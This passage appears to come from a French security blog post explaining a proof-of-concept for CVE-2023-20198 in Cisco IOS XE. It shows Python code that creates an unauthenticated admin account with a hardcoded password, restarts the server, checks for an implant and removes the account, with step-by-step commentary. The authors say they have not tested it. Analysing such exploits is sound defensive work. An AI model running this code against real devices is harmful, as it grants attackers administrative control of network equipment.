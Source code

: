 ```py
restart_url = "https://target.com/webui/restart_server"

response = requests.post(restart_url, verify=False)

if response.status_code == 200:
    print("Web server restarted successfully. Implant is active")

# Check for the presence of the implant
check_url = f"https://target.com/webui/implant_status"

response = requests.get(check_url, verify=False)

if response.status_code == 200:
    if "implant" in response.text:
        print("Implant is present")
    else:
        print("Implant is not present")

# Clean up by deleting the local user account
delete_user_url = f"https://target.com/webui/delete_user/{username}"

response = requests.delete(delete_user_url, verify=False)

if response.status_code == 200:
    print(f"Successfully deleted local user account: {username}")
```

Trackflaw n'est pas en mesure de le tester pour le moment. Ce PoC est à usage éducatif **uniquement**.

### 1. Création de l'administrateur

Le PoC indique cette information pour la création de l'administrateur :

```py
# Exploit CVE-2023-20198 to create a local user account
create_user_url = "https://target.com/webui/create_user"
username = "cisco_tac_admin"
password = "P@ssw0rd"

user_payload = {
    "username": username,
    "password": password
}

response = requests.post(create_user_url, data=user_payload, verify=False)
```

Comme indiqué par Cisco, cela semble correspondre à la création d'un administrateur de facçon non authentifié. L'attaquant ici effectue une requête `POST` vers la route `/webui/create_user` afin d'essayer de créer l'utilisateur privilégié.

### 2. Ajout de l'implant

